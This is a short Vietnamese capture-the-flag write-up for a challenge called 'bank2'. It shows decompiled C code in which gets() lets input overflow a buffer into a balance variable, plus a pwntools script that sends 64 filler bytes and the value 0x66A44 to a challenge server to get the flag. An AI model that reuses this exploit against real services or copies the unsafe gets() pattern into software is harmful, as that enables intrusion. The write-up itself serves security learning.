# bank2
## Đề bài
```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 0x66A44 )
    getFlag();
}

void getFlag()
{
  system("cat flag.txt");
}
```
Lại là 1 bài buffer-overflow, tương tự bài mybirthday, ghi đè biến `balance` thành `0x66A44` thì sẽ gọi hàm `getFlag`

## Script
```python3
from pwn import *

r = remote('61.28.237.24', 30203)

print(r.recvuntil('Please enter your name:'))
payload = b'a' * 64
payload += p32(0x66A44)
r.sendline(payload)
print(r.recvline())
print(r.recvline())
```
Flag: HCMUS-CTF{little_endian_is_fun}